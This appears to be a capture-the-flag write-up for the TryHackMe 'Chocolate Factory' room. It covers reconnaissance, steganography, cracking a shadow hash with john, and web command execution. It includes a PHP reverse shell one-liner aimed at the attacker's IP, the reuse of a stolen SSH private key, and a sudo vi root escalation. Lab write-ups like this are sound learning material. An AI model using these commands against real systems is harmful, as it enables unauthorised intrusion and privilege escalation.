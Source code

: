 # CTF-Write-up

## Try Hack Me - Chocolate Factory

##### URL: https://tryhackme.com/room/chocolatefactory

##### Created by _https://tryhackme.com/p/0x9747_, _https://tryhackme.com/p/saharshtapi_ and _https://tryhackme.com/p/AndyInfoSec_

![logo](https://user-images.githubusercontent.com/20625004/114892914-db8ec200-9e15-11eb-8fbf-45df6a83d74f.PNG)

You should deploy the machine first.

Add the CTF ip to your host file.

``` echo "CTF ip" >> /etc/hosts```

Run nmap against the target machine.

```nmap -sC -A <target IP>```

We found multiple ports.

Looking carefully of the ``nmap`` output we notice somthing intersting.

![nmap](https://user-images.githubusercontent.com/20625004/114934209-4bb33d00-9e42-11eb-8806-c438fdb96844.PNG)

There is a link.

We access it and download the file.

![key](https://user-images.githubusercontent.com/20625004/114934540-ac427a00-9e42-11eb-84ab-1c14b2952806.PNG)

Seems we found a flag.

Next we found anonymous access on ftp port, lets access it.

Inside there is a gum_room.jpg photo, download it.

``mget gum_room.jpg``

Using ``steghide`` and no password we can extract a txt.

![b64](https://user-images.githubusercontent.com/20625004/114932504-405f1200-9e40-11eb-8452-a04157e52f86.PNG)

There is an indication on the name of the b64.txt which can refer to base64.

Access the file.

![b64_txt](https://user-images.githubusercontent.com/20625004/114932725-7f8d6300-9e40-11eb-8cc2-aab90828b5e7.PNG)

Lets decode it.

You can use a web site for this action or type the following command.

`` echo "the content of the file" | base64 -d``

We found the shadow file of the target system.

![shadow](https://user-images.githubusercontent.com/20625004/114933169-0e9a7b00-9e41-11eb-9123-eb4374131377.PNG)

We found the user with a hashed password we need to decode it.

Lets use ``john`` for this action.

Copy the user we want into a new txt file and use this with ``john``.

``john txt file --w=/path/to/wordlist``

![john](https://user-images.githubusercontent.com/20625004/114933603-82d51e80-9e41-11eb-9bc0-ccb3af9d5014.PNG)

We have a password (flag) we have a user lets access the web portal on port 80.

![portal](https://user-images.githubusercontent.com/20625004/114933813-ca5baa80-9e41-11eb-9f4e-3f31febdc10c.PNG)

Before this step i also used ``gobuster`` in order to find intersting paths on the portal with no success.

![access](https://user-images.githubusercontent.com/20625004/114933995-042cb100-9e42-11eb-993c-67ad6dd6290f.PNG)

Success we have access. 

We can execute commands.

![command](https://user-images.githubusercontent.com/20625004/114934814-14915b80-9e43-11eb-982e-dbfe8b630b17.PNG)

Now lets try reverse shell, set up a netcat listener on a port on your machine and add the below command.

We use PHP since we know that the website is written in PHP.

``php -r '$sock=fsockopen("Your IP",Port);exec("/bin/sh -i <&3 >&3 2>&3");'``

![data](https://user-images.githubusercontent.com/20625004/114935615-14459000-9e44-11eb-92fa-e14f51279d82.PNG)

Within the home directory of the user there is a SSH private key, save it on your system.

Give proper SSH permissions ``chmod 600 xxx`` i named it id_rsa.

Then we use it with the user to access SSH.

``ssh -i id_rsa username@targetIP``

![ssh](https://user-images.githubusercontent.com/20625004/114936474-27a52b00-9e45-11eb-8eed-23d27b19b8cb.PNG)

We now have access and the user flag.

We move on Privilege Escalation.

The first move is to type ``sudo -l``.

![sudo](https://user-images.githubusercontent.com/20625004/114937079-fd07a200-9e45-11eb-9fa8-04f5429d59aa.PNG)

We can execute ``vi`` with root permissions.

Searching on ``https://gtfobins.github.io/gtfobins/vi/`` and we can exploit it.

``sudo vi -c ':!/bin/sh' /dev/null``

![root](https://user-images.githubusercontent.com/20625004/114937496-84551580-9e46-11eb-9f40-427e2945b8b8.PNG)

We are root. Move on the root directory.

There´s a root.py in the folder which contains the follwoing code.

![python](https://user-images.githubusercontent.com/20625004/114937970-2c6ade80-9e47-11eb-9b43-24602fe78492.PNG)

The script will take an input and decrypt it.

After many trials and errors i used the first flag key we found at the first steps.

![flag](https://user-images.githubusercontent.com/20625004/114938288-9a170a80-9e47-11eb-9554-68cca9dcdb96.PNG)

And we have own it. There you should find the last flag.



